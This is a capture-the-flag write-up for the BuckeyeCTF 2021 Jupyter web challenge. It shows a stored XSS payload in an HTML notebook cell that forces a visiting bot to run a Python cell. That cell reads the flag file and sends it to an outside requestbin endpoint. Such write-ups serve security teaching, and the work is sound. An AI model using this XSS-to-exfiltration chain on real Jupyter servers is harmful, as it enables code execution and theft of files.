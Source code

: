 # BuckeyeCTF 2021 - `web/jupyter`

## Challenge Description

Upload a Jupyter notebook and the admin bot will take a look at it :)

URL: http://3.21.105.111

Note: Try to be gentle with the server

## Solution Summary

Use HTML cell to place XSS on the Jupyter notebook which forces the bot to run a code cell with Python code that exfiltrates the flag.

## Challenge Analysis

This challenge contains two components: the `app` and the `bot`. The `app` is a web app that serves a simple file upload for [Jupyter notebooks](https://jupyter.org/),
which are documents that contain Python code cells and display their output.

![alt text](https://github.com/Nolan1324/CTF-Writeups/blob/main/buckeye-2021/jupyter/upload.png)

This will post it to the `/upload_ipynb` endpoint on the app. The file will be given a random name ending in `.ipynb` and written to an uploads folder.
The notebook will then be ran with `jupyter trust` and served at the URL `"{APP_URL}:8888/notebooks/{filename}"`.
The app will then post to the bot's `/visit` endpoint with the URL of the notebook it is hosting in the body.
Note that only the app server can send requests to this endpoint as it has to send a secret `BOT_TOKEN` along with it.

When the bot receives a valid URL on this endpoint, it will visit it using Puppeteer.
After a timeout, it will then call `window.IPython.notebook.close_and_halt()` to gracefully stop and close the Jupyter notebook that it is viewing.

The app also a contains `run.sh` which immediately moves the file containing the flag to `/flag_{rand}.txt`, where `rand` is a random hex string.
Our goal therefore is to read this file.

## Solution Walkthrough

Since Jupyter notebooks contain code cells that execute Python code on the local machine, we should be able to get the flag if the bot runs a code cell while viewing the Jupyter notebook.
Even though the bot is viewing the notebook, executed code cells will run on the app, since the app is the server hosting the Jupyter notebook.
This is good because the app has the flag file, not the bot.

I created a new notebook by downloading Jupyter and running `jupyter notebook` to open my own web enviornment.
I then wrote a simple Python payload in a code cell that exfiltrates the flag.

```python
import urllib
import glob

endpoint = 'https://enbnoedu5p8tj.x.pipedream.net/'

path = "/flag*.txt"
flag = ''

for filename in glob.glob(path):
    with open(filename, 'r') as f:
        flag = f.readline()

urllib.request.urlopen(endpoint + flag)
```

The purpose of `glob` is to find the flag's filename, since part of the filename is random.
The content of this file is then read and sent to a server created with [request.bin](https://requestbin.com/).

This code cell works when the user decides to run it.
However, there is still a problem: when the bot reads the Jupyter notebook, it doesn't actually run any of the code cells.

I noticed in the bot that `window.IPython.notebook.close_and_halt()` gets called in order to stop the notebook.
This implies that Jupyter has some Javascript functions that we could possibly leverage to get the bot to run the code cell.
After some digging, I found that running the Javascript `IPython.notebook.execute_cells([0])` on the page will run the first code cell.

Now all we need is some XSS on our Jupyter notebook page to run this Javascript.
I found that in Jupyter you can have a code cell output HTML by using the following syntax in a code cell.

```html
%%html
<!--
HTML goes here
-->
```

The HTML outputed when this code cell is ran will actually persist even if the notebook is closed and reopened (as long as you save it beforehand).
This generated HTML could be the perfect place to get some XSS running.

When I tried running my XSS using `script` tags, I sometimes had issues with the page not running the script or running it at the wrong time.
There are probably many different ways of solving this (I think you can even edit the notebook's source code directly),
but I decided to just use the quick solution of having an invalid `img` element that runs my XSS payload via `onerror`.

```html
%%html
<img src='http://example.com' onerror='IPython.notebook.execute_cells([0]);' />
```

This had the desired effect of running the first cell whenever I opened the notebook!
Thus all that was left was to upload this to the app server and have the bot open it for me and send me the flag.

## Solution Source

https://github.com/Nolan1324/CTF-Writeups/blob/main/buckeye-2021/jupyter/notebook.ipynb

